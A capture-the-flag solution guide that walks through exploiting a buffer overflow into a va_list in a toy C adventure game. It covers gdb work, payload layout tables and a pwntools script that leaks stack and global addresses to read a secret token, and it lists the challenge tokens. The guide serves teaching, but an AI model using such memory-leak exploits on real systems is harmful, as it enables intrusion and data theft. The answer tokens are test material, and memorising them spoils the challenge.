

# va_list Adventure

*Solution Guide*

## Overview

In va_list Adventure, the competitor exploits a buffer overflow into a va_list to leak arbitrary memory addresses of a text-based adventure game.

The challenge is designed to guide the competitor in the right direction by giving them subtasks to complete. In order to fully complete the task, the competitor will need to defeat Address Space Layout Randomization (ASLR) by leaking an address in the stack and global memory address spaces. The first subtask requires leaking a stack address, which is then used in Subtask 2 to obtain the global address. With these, the competitor can then obtain the final token from the global address space.

Note that this solution tries to explain concepts in enough detail for those unfamiliar with binary exploitation; some concepts, however, may still require outside references for full understanding (for example, C programming or the layout of memory segments in x64).

**Note also that the randomly generated addresses may contain `0x00` and thus fail to extract.**  If this occurs, simply reconnect and new addresses will have been generated.

The file [exploit.py](./exploit.py) contains the combined final code used to solve all three parts of the challenge, along with some very simple error handling to catch the above `0x00` issue.

## Question 1

*Token 1: The first step was to "leak the stack". Discover the vulnerability and use it to leak the address of `char playerName[100]` in `main` and enter it at `challenge.us`.*

*Enter token received from challenge.us after successfully inputting the address of the playerName char array.*

For this binary exploitation challenge, we are provided a copy of the executable and the source code by downloading them from `challenge.us`. The source code will make our lives a bit easier when we need to identify the vulnerability. However, let's begin by getting some information about the binary itself by using `file` and `checksec` (part of the `pwntools` python library).

```bash
$ file ./adventure 
./adventure: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=87786858a50e53ccdb54592e8d2add63ac24caa1, for GNU/Linux 3.2.0, with debug_info, not stripped


$ checksec ./adventure
[*] '/home/user/Downloads/adventure'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Going down line by line, we know this as a 64-bit x86 executable in little-endian format with debugging symbols included. We also know that this executable has the following protections:

- Partial Relocation Read Only (RELRO): Some memory segments are marked as read only. This will not be important to us.
- No canary found: A stack canary is used to detect stack smashing (a buffer overflow into the stack memory segment) by placing a random value on the stack and checking if the value has been modified at the end of a function. In this case, there will not be any stack protector preventing us from performing buffer overflows onto the stack (for this challenge, we will be able to overwrite some local values).
- No Execute (NX) enabled: Memory segments besides the text (code) segment are marked as non-executable (our goal is to leak values, so this will also not be important to us).
- Position Independent Executable (PIE) enabled: The code is compiled so that the text/data memory segments can be placed "randomly"; this impacts the globals (in the data segment), which we know from the challenge description we will need to access. 
    - With PIE enabled, we should assume that Address Space Layout Randomization (ASLR) is used (and it is), so all memory segments at "random" spots.

This list provides us with some insight into what we can and cannot do when trying to exploit this binary. Given there is no stack canary, we can assume a buffer overflow will be our target, and our primary obstacle will be overcoming ASLR. This also makes sense when considering the challenge description, which is all about leaking memory addresses.

Now lets check out what the code does by running the program (alternatively, you could inspect the source code first). From the challenge description, we are expecting a text-based choose-your-own adventure type game. Note you may need to run `chmod +x ./adventure` to be able to execute the program.


This is indeed a game, which works by providing a list of available actions when the word "help" is entered. There isn't much here, but play around with the different options to familiarize yourself with what the code does.

Now let us inspect the [source code](../challenge/adventure/main.c). The program is fairly standard C code which reads in user input, then prints out some text based on the entered value. Of particular interest is the menuPrompt function, shown below (along with an example of how it is called).

```C
int
menuPrompt (int n, ...)
{
    va_list l;
    char buf[10];
    int choice = 0;
    va_start (l, n);

    //Get user input
    printf ("\nAction: ");
    fgets (buf, 35 + 5, stdin);
    buf[strcspn(buf, "\n")] = 0; //Clear new line
    puts ("");

    if(strncmp(buf, "help", 4) == 0){
        for (int i = 0; i < n; i++)
        {
            char *a = va_arg (l, char *);
            if(a == 0){
                printf("------\n"); //Print a break to separate various menu items 
            }else{
                printf ("%s\n", a);
            }
        }
    }
    else{
        int len = strlen(buf);
        for (int i = 0; i < n; i++)
        {
            char *a = va_arg (l, char *);
            if(a == 0) continue; // Ignore if break
            if(len > 0 && strncmp(a, buf, len) == 0){
                return i + 1;
            }
        }
    }

    va_end (l);
    return choice;
}
...
// Example from line 86 of how the function is called
int choice = menuPrompt(4, 
    "move: Your destiny awaits...", 
    0x0,
    "ponder: Consider your fate...", 
    "run: The sun filters in from the cave entrance behind you...");
```

This code is a bit unusual as it takes a variadic number of arguments (and given the name of the challenge, this is of high interest to us). This function begins by reading input. If the input begins with "help", it prints all of the arguments provided to it. Otherwise, it finds the argument that matches the entered text and returns the index of that action (or 0 if none).

This code also contains a buffer overflow vulnerability as the `char buf[10]` array is only 10 bytes long but `fgets` reads `35+5` bytes into it. This appears to be the only vulnerability in the program.

Let us run the program again, and see if we can overflow the buffer with a bunch of `A`'s.


The segmentation fault confirms that we can overwrite values on the stack that are then used to access memory in some way. Let's open the program up in a debugger now. Kali has gdb installed (with GEF), VS Code, and Ghidra. You can use gdb with VS Code and Ghidra, or use gdb directly, which is what I am more familiar with and will be using for this guide. Start gdb with `gdb ./adventure` and place a breakpoint on `menuPrompt`: `break menuPrompt`.


Now let's run the program by typing `run`.


The program has stopped at the beginning of the menuPrompt function. Since the program was compiled with debugging symbols and we are using gef, we get a lot of extra context information in gdb, including the source code, which shows we are stopped at line 35. The buffer overflow occurs on line 40. Use `n 3` to execute the next 3 lines and skip to line 40. The buffer overflow will occur after we use `n` to execute the next line.

Before we trigger the buffer overflow, we should inspect the current memory layout. First we can take a look at the locals using `info locals`.


We have the va_list `l`, the `buf`, and `choice`. Right now these all look normal (note that `buf` is full of "random" values at the moment as the code as not yet read anything into it). Since we will be writing to buf, let's find the address using `p &buf`. In this case, `buf` starts at `0x7fffffffdb66`.


Now let's take a broader look at the stack. As far as I am aware, gef does not have a command to "pretty print" longer versions of the stack as shown in the context menu like pwndbg does. We can get around that by setting the stack context to print more lines. Lets print 60 lines of the stack: `gef config context.nb_lines_stack 60`. With that reconfigured, use `context stack` to print the stack. You don't need to print this much, but I find it useful to have a larger view to get context.


Since buf starts at `0x7fffffffdb66` and we read 40 bytes, the section we can overwrite is the following:

```none
--------- BUF STARTS IN THIS BYTE  ---------
0x00007fffffffdb60│+0x0100: 0x00007fff00000000     (NOTE: buf only uses the last 2 bytes of this line)
0x00007fffffffdb68│+0x0108: 0x00007ffff7e5478f  →  <free+111> mov DWORD PTR fs:[rbx], ebp
--------- BUF ENDS HERE  ---------
0x00007fffffffdb70│+0x0110: 0x0000003000000008
0x00007fffffffdb78│+0x0118: 0x00007fffffffdba0  →  0x00007fffffffdd68  →  0x00007fffffffe114  →  "/home/user/Downloads/adventure"
0x00007fffffffdb80│+0x0120: 0x00007fffffffda90  →  0x0000000000000000
0x00007fffffffdb88│+0x0128: 0x0000555500000004
--------- WE CAN OVERWRITE INTO THIS BYTE  ---------
```

The bytes from `0x00007fffffffdb66` to `0x00007fffffffdb68` are the intended parts of `buf` and contain values left on the stack from previous function calls. If we could print the values, they might have been useful, but that is not an option. The remaining area is the section that we can actually overwrite. Fortunately, the values there may look familiar: this is the `va_list l`! To confirm, print the address of `l`: `p &l`. In this case, it prints `0x7fffffffdb70`, which is the address we overflow into.

There are two pointers in `l`; overwriting these is what caused the segmentation fault during our buffer overflow earlier. The next thing to do then is figure out what these values are actually doing.

In an x64 program, the first several arguments to functions are passed via registers, and any additional arguments are passed by pushing them onto the stack. This is also true of variadic arguments, except that the number of arguments is not known at execution time (unless an additional technical like Argument Width Counting is used). 

For variadic function calls, the arguments passed via registers are copied to the stack at the beginning of the function. This includes 8 general purpose (GP) registers and 8 floating point (FP) registers. When `va_start` is called, this stack address is loaded into the `reg_save_area` member of the `va_list` struct. When you retrieve a variadic argument using `va_arg`, the program retrieves the value from `reg_save_area + gp_offset` if the requested value type is a general purpose value (like an int or pointer) and `reg_save_area + fp_offset` if the requested value type is a floating point value. If we check the stack above, you'll see `0x7fffffffda98 + 0x8 = 0x7fffffffda98` is the first variadic string arg "move:...". After accessing the value, the offset is incremented by 8 (you can see this in action by stepping through the `for` loop that prints the variadic args and printing `l` each loop). In our example, you can see `0x7fffffffda90 + 0x10 = 0x7fffffffdaa0` and `0x7fffffffda90 + 0x18 = 0x7fffffffdaa8` contain the second and third variadic arguments.

When `gp_offset` is equal to 48, this means all 8 registers have been accessed. If there are still more arguments to read, they are now retrieved using `overflow_arg_area`. The `overflow_arg_area` is a simple pointer to the next argument on the stack. Just as before, when a value is retrieved, the address is incremented. In our cause, there are not more than 8 arguments, so this address does not actually contain an argument and should not be used. However, the `va_list` still has an address set. In our case, it is `0x7fffffffdba0`, which contains a pointer to the stack.

```none
0x00007fffffffdba0│+0x0140: 0x00007fffffffdd68  →  0x00007fffffffe114  →  "/home/user/Downloads/adventure"
```

If we overwrite `gp_offset` with a value greater than 48, then `overflow_arg_area` will be incorrectly used. Since there are four variadic arguments, the code should print four values. In this case, those will be the following:

```none
0x00007fffffffdba0│+0x0140: 0x00007fffffffdd68  →  0x00007fffffffe114  →  "/home/user/Downloads/adventure"
0x00007fffffffdba8│+0x0148: 0x00005555555581f8  →  0x00007fffffffdbd0  →  0x0000727568747241 ("Arthur"?)
0x00007fffffffdbb0│+0x0150: 0x00007fffffffdc50  →  0x0000000000000001
0x00007fffffffdbb8│+0x0158: 0x0000555555555797  →  <main+279> cmp eax, 0x1
```

Since we are printing a string using `printf("%s\n", a);`, the value on the stack will be dereferenced, so the second column of values will be the ones printed. In this case, the expected output will be:

- `0x00007fffffffe114`
- `0x00007fffffffdbd0`
- `0x0000000000000001`
- the binary representation of the instruction "cmp eax, 0x1"

The first two values are stack addresses. By leaking these addresses, we have "de-randomized" the stack and defeated ASLR (we will cover that once we get to Question 2). However, the second address, `0x00007fffffffdbd0` is interesting, as it is a pointer to the string "Arthur", which is the default name set in `main.c`. If we use `p player`, we get the following output, revealing that this is indeed the address of playerName on the stack, which is what we need for our first token.

```C
gef➤  p player 
$5 = {
  name = 0x7fffffffdbd0 "Arthur",
  level = 0x1,
  hitpoints = 0xa
}
```

### Leaking the address

Let's try our exploit now by providing `AAAAAAAAAAAAAA`(that's 14 A's). Use `n` to continue the program in gdb, which will pause to accept input where you can enter the A's (note nothing is printed, it just silently hangs waiting for input). Once that is complete, use `p l` again to print the `va_list` or print the stack with `context stack`.



Switch to a new terminal and let's try running this outside of gdb. You can use the following python to make it easier.

```bash
# Print 14 A's then switch back to reading from the keyboard
(python -c "print('A'*14)"; cat) | ./adventure
```


Nothing happened, but the program did not crash. Looking back at the code, in order to get something to print, the command needed to start with "help":

```C
...
if(strncmp(buf, "help", 4) == 0){
    for (int i = 0; i < n; i++)
    {
        char *a = va_arg (l, char *);
        if(a == 0){
            printf("------\n"); //Print a break to separate various menu items 
        }else{
            printf ("%s\n", a);
        }
    }
}
...
```

Try the command again, but modified to start with "help".

```bash
# Print 14 A's then switch back to reading from the keyboard
(python -c "print('help' + 'A'*10)"; cat) | ./adventure
```


We can now see that some odd values were printed. This is actually the address being misinterpreted as a string! We have successfully leaked an address on the stack, but we need to be able to actually read the address for submission. There are a couple ways around this, but we will ultimately need to set up a script to do this for us, so let's begin writing an exploit script `exploit.py` using the python module `pwntools` and `IPython`.

```python
from pwn import *
import IPython

DEBUG = True

p = None

if DEBUG:
    p = gdb.debug('./adventure', '''
    break main
    break menuPrompt
    ''')
else:
    p = process("./adventure")

p.sendline("help" + "A"*10)

p.recvuntil("Action: \n")

IPython.embed()                    
```

This code starts the adventure binary either in GDB if we are debugging, or normally if not. It then sends our payload, and then reads in everything until the "Action: \n". Finally, it drops into an interactive terminal so we can inspect things. Note to run this program with the debugging, pwntools expects us to be using `tmux`, a terminal multiplexer, so run that first. It will appear to just open a normal shell at first, but run the python command to see the magic.  

```bash
sudo apt install gdbserver  # Install this for pwntools
tmux   # This will open a new terminal window

python ./exploit.py   # Run this in the terminal tmux creates
```


As a terminal multiplexer, tmux allows us to have multiple terminal "panes" open in the same window. This is extremely useful for our purposes, but is optional. In our case, pwntools opened a new pane with gdb at the bottom of the window. If you have not used tmux before, you provide commands to `tmux` using `CTRL+B <shortcut>` (note you need to release the `CTRL+B` keys, then enter the shortcut). There are lots of different complex layouts you can find online to greatly improve your efficiency, but just these two will be good for us for now.  Here are some useful commands:

- `CTRL+B <arrow key>`: Switches the active pane, allowing you to interact with the other pane
- `CTRL+B c`: Opens a new window; all open windows are listed at the bottom of the screen with a number (in the screenshot, this is `0:gdb` and the `[0]` tells us window 0 is our active window)
- `CTRL+B <number>`: Switches to the window with label `number`
- `CTRL+B [`: Allows you to scroll up and down the pane as if you are using the `less` command. Use `CTRL+C` to stop.
- `CTRL+B <space>`: Switches the layout (I personally prefer two vertical panes)

When we spawned gdb using python, we passed the commands `break main; break menuPrompt` to gdb, so the program is currently stopped at `main`. If we run `c` to continue, the program will then break at `menuPrompt`, just like when we were using gdb normally. For now, run `c` to continue to menuPrompt and then either use `c` again or multiple `n` to get to where the code asks for input.

The Python code can then continue, and now loads an interactive terminal. Use `CTRL+B <arrow key>` to switch to the Python terminal, and we can now interact with the running process using the `p` variable. Enter the following:

```python
p.recvline()  # This is the first address we saw
x = p.recvline()  # This was the address of the player name
print(x)
```

The string is a binary array; we can decode the array with `u64`, but first we need to remove the newline character and add the missing leading 0's. Note the `b""` string, which is a binary string array in Python; `pwntools` expects them as arguments (and throws warnings if you don't use them). Finally, since this was a little-endian executable, the address is backwards, with the most-significant bytes at the end. 

```python
x = x[0:len(x) - 1]  # Remove newline
x = x + b"\x00" * (8 - len(x))  # Add missing 0's until length of array is 8
x = u64(x)  # Decode it
print(f"{x:x}")
```


The address in this case is `0x7ffe708a8580`. However, this is just our local version of the program. The remote version is available at `exploit.us` on port `31337` (you can see it by running `nc exploit.us 31337`). We can use our python script to do this.

```python
from pwn import *
import IPython


DEBUG = False

p = None

if DEBUG:
    p = gdb.debug('./adventure', '''
    break main
    break menuPrompt
    ''')
else:
    # p = process("./adventure")
    p = remote("exploit.us", 31337)

# IPython.embed()

# First, overwrite gp_offset so varg will begin reading at overflow_arg_area instead of reg_save_area
p.sendline(b"help"+b"A"*12)

p.recvuntil(b"Action: \n")  # Consume everything printed so far

p.recvline()  # Skip the first address

addressRaw = p.recvline()  # The corrupted varg prints the address of the player name now

addressStr = addressRaw[0:len(addressRaw)-1]  # Get rid of new line

addressStr = addressStr + b"\x00" * (8 - len(addressStr))  # Add any missing leading zeroes for unpacking

address = u64(addressStr)  # Unpack address so we can perform calculations

print(f"Got leaked address (of player name) as 0x{address:x}")

# IPython.embed()
```


In this case, the token was `47fde7e6210a`.

## Question 2

*Token 2: The second step was to "use the stack to leak the globals". Leak the address of the global `character player` and enter it at `challenge.us.`*

*Enter token received from challenge.us after successfully inputting the address of the player struct.*

With the stack address and the vulnerable `va_list`, we can now leak any value in the stack that we desire. For Question 2, we want to leak the address of the `player` struct. This is passed on the stack to the function `firstLevel` in main, so it should be there somewhere for us to find. Let's go back to gdb and figure out where. Switch the `debug` value in our python script back to True, and uncomment the `IPython.embed()` at the bottom. This will leak the address for us first (after we use `c` a couple times in gdb), and then drop us into another interactive Python terminal with GDB on the side.

Use the trick from before to print the stack: `gef config context.nb_lines_stack 60` and `context stack`. From what we've leaked during Question 1, we know that since we are using `%s` to print, we can only print dereferenced values (that is, we print the second column of values after the arrow). Unfortunately, the stack does not contain a pointer to the player value (nor any other global) that we can easily print.  


However, the address is on the stack at address `0x7ffe0d73e238` (note the addresses have all changed from our previous run since we restarted the program). To get the global address of player to print, we need add `0x7ffe0d73e238` on the stack, then point at it with `overflow_arg_area`. That is, we will need our payload to look like this, where `overflow_arg_area` points to our inserted pointer, and our inserted pointer points to the address of player. 

|Stack|||
| :-----------: | :--------------: | -------------------------: |
| helpAAAA                        |  |
| pointer to player                  |<-|--V
| overflow_arg_area               |-^| \|
| ...                             |  | \|
| address of player               |   |   <--

Our payload must adhere to the current layout of the stack:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| _ _ _ _ _ _ | Six bytes of space |
| _ _ _ _ | Four bytes for gp_offset, must be some value greater than 40 |
| _ _ _ _ | Four bytes for fp_offset |
| x x x x x x x x x | overflow_arg_area, our address will be here |
| _ _ _ _ _ _ _ _ _ | reg_save_area |
| _ _ _ _ | Argument n, the number of variadic args |
| _ _ | Two bytes of space |

We need 8 consecutive bytes to store our address in. Using `reg_save_area` is the obvious choice. We should also overwrite argument `n` to be `0x01` since we only want to read one address. With our payload format figured out, we need to determine the contents. In this case, that would be:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| 0x00007ffe0d73e210 | overflow_arg_area, this points to reg_save_area |
| 0x00007ffe0d73e238 | reg_save_area, this points to the address of player |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |

Unfortunately, that would only work in this context since the addresses will change on the next run due to ASLR. Instead, we need to use our leaked and address and calculate the offset. In this case, our leaked address is `0x7ffe0d73e260`. To calculate our offset for the address of `reg_save_area`, we do `0x7ffe0d73e210 - 0x7ffe0d73e260 = -80`. The offset for the address to player is `0x00007ffe0d73e238 - 0x7ffe0d73e260 = -40`. Our custom payload, then, will be the following where `LA` stands for the Leaked Address of the player name:

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| LA + -80 | overflow_arg_area, this points to reg_save_area |
| LA + -40 | reg_save_area, this points to the address of player |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |

We can add this to our python script. Note that we use the functions `p64` and `p32` to pack our 8 byte and 4 byte values.

```python
...previous code here...

payload = b"help" + b'A' * (6 + 4 + 4)
payload += p64(address + -80)
payload += p64(address + -40)
payload += p32(0x01)

p.sendline(payload)  # Send the payload

p.recvuntil(b"Action: \n")  # Consume everything printed so far

playerRaw = p.recvline()  # The corrupted varg now prints the address of the player struct

playerStr = playerRaw[0:len(playerRaw)-1]  # Get rid of new line

playerStr = playerStr + b"\x00" * (8 - len(playerStr))  # Add any missing leading zeroes for unpacking

playerAddress = u64(playerStr)  # Unpack address so we can perform calculations

print(f"Got leaked address (of player struct) as 0x{playerAddress:x}")

#IPython.embed()

```

You can copy that code straight into the interactive IPython terminal, or copy it into the file and rerun the code. The following screenshot shows it copied into IPython and gdb confirming the correct value was obtained.


With this code added to our script, turn `DEBUG` back to false, and comment out any `IPython.embed` functions, and we can run the script on the `exploit.us` server.


In this case, the token was `c32694182450`.

## Question 3

*Token 3: Exploit the game at `exploit.us` on port `31337` to retrieve the secret token stored in the `globalStr` global variable.*

*Enter the token found in the globalStr array on exploit.us.*

With the global address leaked in Question 2, the only thing left for us to do is leak the value in `globalStr`. We also already know how to read an arbitrary value! The only thing we need is to calculate our offset from the leaked address of `player` to `globalStr`. Switch your python script to `DEBUG` mode, uncomment the `IPython.embed()` at the end of the script, and run it one last time to find our offset in gdb.

Use `c` until both the name and player addresses are printed. In my case, the player address leaked is `0x560391a6e1f8` and the address of globalStr is `0x560391a6e090` (retrieved with `p & globalStr`). So our offset will be `0x560391a6e090 - 0x560391a6e1f8 = -360`. Our next payload will be the following, where LA is the Leaked Address of the player name and LAG is the Leaked Address of the Global player struct.

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| LA + -80 | overflow_arg_area, this points to reg_save_area |
| LAG + -360 | reg_save_area, this points to the address of globalStr |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |

Our python code then will be:

```python
...previous code here...

payload = b"help" + b'A' * (6 + 4 + 4)
payload += p64(address + -80)
payload += p64(playerAddress + -360)
payload += p32(0x01)

p.sendline(payload)  # Send the payload

p.recvuntil(b"Action: \n")  # Consume everything printed so far

print(b"Token is " + p.recvline())

p.sendline("run")  # Gracefully end the program

```

Like before, copy this into your file and into IPython. The following screenshot shows it worked in IPython, printing the placeholder token in our local version of the code.


Time to get the token! Turn debug mode back off, comment out IPython, and run the program.


In this case, the token was `a694ba708893`.
